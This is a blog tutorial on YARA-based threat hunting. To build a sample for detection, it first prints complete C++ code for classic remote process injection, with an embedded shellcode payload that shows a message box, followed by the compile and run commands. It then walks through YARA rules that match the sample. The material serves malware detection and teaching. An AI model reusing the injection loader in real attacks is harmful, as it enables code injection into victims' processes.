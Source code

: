 ```yaml
---
title:  "Malware analysis 3: threat hunting via YARA. Process injection example."
date:   2022-02-15 10:00:00 +0600
header:
  teaser: "/assets/images/40/2022-02-15_22-22.png"
categories:
  - tutorial
tags:
  - red team
  - blue team
  - malware
  - analysis
  - yara
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![yara](/assets/images/40/2022-02-15_22-22.png){:class="img-responsive"}    

This is an introduction to my own YARA-based threat hunting research.     

### yara

When performing malware analysis, the analyst needs to collect every piece of information that can be used to identify malicious software. One of the techniques is [Yara](https://github.com/VirusTotal/yara) rules. In this post, I am going to explore Yara rules and how to use them in order to detect malware.    

**Yara** is an open-source tool that assists malware researchers to identify and classify malware samples by looking for certain characteristics.    

### detect malware with Yara rules

Let's discover how to use Yara rules to discover malware. For simplicity, first example is malware with [classic](/tutorial/2021/09/18/malware-injection-1.html) process injection logic:   

```cpp
/*
hack.cpp
classic payload injection example
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/02/15/malware-analysis-3.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// meow-meow messagebox payload (without encryption)
unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

unsigned int my_payload_len = sizeof(my_payload);

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, my_payload_len, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

For checking correctness let's go to compile and run this code:   

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -Wint-to-pointer-cast -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![yara](/assets/images/40/2022-02-15_22-46.png){:class="img-responsive"}    

```bash
.\hack.exe 4916
```

![yara](/assets/images/40/2022-02-15_12-43.png){:class="img-responsive"}    

As you can see, our simple malware example work perfectly.    

In Yara, each rule starts with a keyword `rule` followed by a *rule identifier*:   

![yara](/assets/images/40/2022-02-15_23-03.png){:class="img-responsive"}    

Rules are generally composed of two sections: *string* definition **(1)** and *condition* **(2)**:    

![yara](/assets/images/40/2022-02-15_23-06.png){:class="img-responsive"}    

Strings can be defined in text or hexadecimal form, as shown in the following example:    

![yara](/assets/images/40/2022-02-15_23-09.png){:class="img-responsive"}    

The condition section is where the logic of the rule resides. This section must contain a boolean expression telling under which circumstances a file or process satisfies the rule or not:    

![yara](/assets/images/40/2022-02-15_23-11.png){:class="img-responsive"}    

In our test rule, which is called meow, we are looking for all files that contain the word meow. To do this, we set the meow as string and as hexadecimal format in the rules:   

![yara](/assets/images/40/2022-02-15_22-03.png){:class="img-responsive"}    

![yara](/assets/images/40/2022-02-15_22-53.png){:class="img-responsive"}    

![yara](/assets/images/40/2022-02-15_23-09.png){:class="img-responsive"}    

### demo

Let's go to see everything in action. It's pretty simple:   

```bash
yara meow.yar ./hack.exe
```
![yara](/assets/images/40/2022-02-15_23-32.png){:class="img-responsive"}    

And it works!   

You can also check the whole folder recursively:    

```bash
cd ../
yara -r 2022-02-15-malware-analysis-3/meow.yar ./
```

![yara](/assets/images/40/2022-02-15_23-37.png){:class="img-responsive"}    

But I want to find only `.exe` files. For this, update our yara rule, add condition: all the valid PE files contain the value of the first two-byte as `4D` and `5A` (**"MZ"** in ASCII), named after **M**ark **Z**bikowsky, a well-known architect of MS-DOS.    

![yara](/assets/images/40/2022-02-15_23-42.png){:class="img-responsive"}    

So, update our code of yara rule file:   

![yara](/assets/images/40/2022-02-15_23-58.png){:class="img-responsive"}    

Then, run with new `meow.yar`:    

```bash
cd ../
yara -r 2022-02-15-malware-analysis-3/meow.yar ./
```

![yara](/assets/images/40/2022-02-15_23-50.png){:class="img-responsive"}    

As you can see Yara found all `pe`-files which contains `Meow-meow` string.    

Also found "evil" DLLs from the [previous](/pentest/2021/10/12/dll-hijacking-2.html) blog posts:    

![yara](/assets/images/40/2022-02-15_23-57.png){:class="img-responsive"}    

[Yara](https://github.com/VirusTotal/yara)    
[awesome-yara](https://github.com/InQuest/awesome-yara)    
[Classic code injection technique](/tutorial/2021/09/18/malware-injection-1.html)    
[source code on Github](https://github.com/cocomelonc/meow/tree/master/2022-02-15-malware-analysis-3)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
